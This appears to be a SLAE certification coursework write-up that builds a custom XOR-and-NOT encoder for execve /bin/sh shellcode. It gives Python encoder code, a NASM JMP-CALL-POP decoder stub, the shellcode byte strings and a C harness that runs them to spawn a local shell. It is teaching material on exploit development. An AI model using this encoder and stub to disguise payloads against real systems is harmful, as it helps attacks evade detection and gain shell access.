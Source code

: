 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-1523

## Assignment#4: What to do ?
For this assignment we have to:
* Create a custom encoding scheme 

Note:
* All the commands used for this assignment were done on the last 64 bits version of KALI Linux.

Now, let's get to work.
=
## 1) The encryption routine:

To do this task, I have chosen to use a two step encoding schema. The python code, used for this task, will go through the shellcode provided inside the 'shellcode' variable and then apply its encoder routine on each Byte.

As said before, the shellcode will be encoded in two steps:
1) Each Byte will be XOR with the 0xAA Byte,
2) Then a NOT operation will be done

Below is the python code used to encode the shellcode:
```python
#!/usr/bin/python3
# Python XOR and NOT encoder

# The shellcode used is a basic systemcall to execve
shellcode = b"\x31\xdb\x53\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc9\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
encoded_shellcode = ""

print('Shellcode len: {}'.format(len(shellcode)))
print('Encoded shellcode ...')

# Each Bytes of the shellcode will be encoded two times using a XOR then a NOT encoder
for x in bytearray(shellcode):
	# XOR encoder:
	# 0xAA is the Byte used to encode
	y = x ^ 0xAA

	# NOT encoder:
	y = ~y
	encoded_shellcode += '{},'.format(hex(y & 0xFF))

# Print the encoded shellcode
print(encoded_shellcode)
```
Here is the results from the python encoder:
```console
kali@kali:/tmp$ python3 encoder.py 
Shellcode len: 30
Encoded shellcode ...
0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5,
```

## 2) The decryption routine:

The 'decoder.nasm' file use the famous JUMP-CALL-POP technique to avoid NULL BYTES.

We can divide this decryption routine in four steps:
1) The JUMP PART of the assembly code will first initialize ecx to NULL then move the length of the shellcode inside cl. It will finally jump inside the CALL section.
```nasm
;JUMP PART
_start:
    xor ecx, ecx                    ;Initialize ecx to NULL
    mov cl, shellcodeLen            ;Initialize cl to the shellcode length
    jmp stage1                      ;Jump to the CALL part (stage1)
```

2) The CALL PART will call the 'stage2' of the code by jumping to it and push the 'shellcode' variable on the stack
```nasm
;CALL PART
stage1:
    call stage2                     ;Call the second part (stage2)
    ;The encoded shellcode is stored here
    shellcode: db 0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
    shellcodeLen: equ $-shellcode   ;This lign is used to get the shellcode length
```

3) The POP PART will simply pop the 'shellcode' variable inside esi and let the execution continues. The decoding process start by using the NOT and XOR logical operations on each Byte of the shellcode.
```nasm
;DECRYPTION PART
stage3:
    not BYTE [esi]                  ;Start the decryption process by a NOT on the value pointed by esi
    xor BYTE [esi], 0xAA            ;Then XOR the value pointed by esi with 0xAA
    inc esi                         ;Increment the address stores inside esi
    loop stage3                     ;Loop until the cl == 0, which means the shellcode is decoded
```

4) Finally, we jump in and execute the decoded shellcode 
```nasm
jmp shellcode                   ;Jump to the decoded shellcode and execute it
```

Below is the whole assembly code described above:
```nasm
;A simple NOT and XOR decoder using the JUMP-CALL-POP method

global _start

;JUMP PART
_start:
    xor ecx, ecx                    ;Initialize ecx to NULL
    mov cl, shellcodeLen            ;Initialize cl to the shellcode length
    jmp stage1                      ;Jump to the CALL part (stage1)

;POP PART
stage2:
    pop esi                         ;Pop the shellcode inside esi

;DECRYPTION PART
stage3:
    not BYTE [esi]                  ;Start the decryption process by a NOT on the value pointed by esi
    xor BYTE [esi], 0xAA            ;Then XOR the value pointed by esi with 0xAA
    inc esi                         ;Increment the address stores inside esi
    loop stage3                     ;Loop until the cl == 0, which means the shellcode is decoded

    jmp shellcode                   ;Jump to the decoded shellcode and execute it

;CALL PART
stage1:
    call stage2                     ;Call the second part (stage2)
    ;The encoded shellcode is stored here
    shellcode: db 0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
    shellcodeLen: equ $-shellcode   ;This lign is used to get the shellcode length
```

Let's compile and get the hexadecimal representation from it:
```console
kali@kali:/$ nasm -f elf32 -o decoder.o decoder.nasm
kali@kali:/$ ld -m elf_i386 -z execstack -o decoder decoder.o
kali@kali:/$ objdump -d ./decoder |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5"
```

We can now add the newly generated shellcode to the following C code:
```c
#include <stdio.h>
#include <string.h>

// The shellcode is stored here
unsigned char shellcode[] = \
"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5";

int main()
{
	// Print the length of the shellcode
	printf("Shellcode Length:  %d\n", strlen(shellcode));

	// Convert shellcode to a function
	int (*ret)() = (int(*)())shellcode;

	// Execute the shellcode
	ret();
}
```

let's compile and execute it:
```console
kali@kali:/tmp$ gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./test_shellcode
Shellcode Length:  52

kali@kali:/tmp/Shellcode/SLAE/assignment4$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
kali@kali:/tmp/Shellcode/SLAE/assignment4$ whoami
kali
kali@kali:/tmp/Shellcode/SLAE/assignment4$ exit
exit

kali@kali:/tmp$
```

